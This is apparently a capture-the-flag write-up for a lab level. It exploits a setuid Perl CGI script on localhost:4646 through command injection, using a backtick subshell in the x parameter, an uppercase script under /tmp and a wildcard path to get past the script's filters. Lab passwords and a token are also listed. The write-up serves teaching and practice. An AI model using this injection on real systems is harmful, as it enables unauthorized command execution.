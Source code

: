 # Level12 - Flag12

## Local script usage

```shell
Usage: ./Ressources/main.sh
```

## Passwords and token

|         |                             |
| ------- | --------------------------- |
| level12 | `fa6v5ateaw21peobuub8ipe6s` |
| flag12  |                             |
| token   | `g1qKMiRpXf53AWhDaU7FEkczr` |

## Steps to resolve on VM

1. Connect to `level12` user and notice there is a lua script with setuid bit

```bash
ssh level12@$SNOW_HOST -p 4242
# Enter the password

ls -l

> -rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
```

2. Check the file

```bash
cat level12.pl
```

```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1]; # param y
  $xx = $_[0]; # param x
  $xx =~ tr/a-z/A-Z/; # param x - to uppercase
  $xx =~ s/\s.*//;    # param x - remove everything after the first whitespace
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) { # t result
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```

While reading the script, we can see what the program do.

Nothing very interesting, but we can use the x parameter to inject a command.

But it's a little bit tricky, because there is a first translation from lowercase to uppercase. And then a substitute expression that removes everything after the first whitespace. So we need to deal with.

In addition, we can notice "localhost:4646"

3. Check ports

Is 4646 port open ?

```bash
netstat -tulpn | grep 4646

> Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
> tcp6       0      0 :::4646                 :::*                    LISTEN      -
```

Yes it is !

Is the program up ?

```bash
curl localhost:4646

> ..
```

Yes it is ! That's a good news. It just print "..", but it is up.

4. Create an uppercase `GETFLAG` script

We have to deal with lowercase substitution and avoid whitespaces

```bash
echo "getflag > /tmp/out" > /tmp/GETFLAG
chmod +x /tmp/GETFLAG
```

We have an other problem. How deal with `tmp` that is lowercase ?

The solution `PATH=/tmp:$PATH` does not work, because flag12 environment is used instead of level12 environment. Neither aliases

Maybe a wildcard ?

```bash
/*/GETFLAG
cat /tmp/out

> Check flag.Here is your token :
> Nope there is no token here for you sorry. Try again :)
```

It perfectly works !

Now we have to inject this command through the server

5. Exploit subshell while injecting a command

```bash
curl -s localhost:4646?x=\`/*/GETFLAG\`
```

6. Get level flag

Finally, read `/tmp/out`

```bash
cat /tmp/out

> Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

---

## Sources

### Shell

- [Check ports in use](https://www.cyberciti.biz/faq/unix-linux-check-if-port-is-in-use-command/)
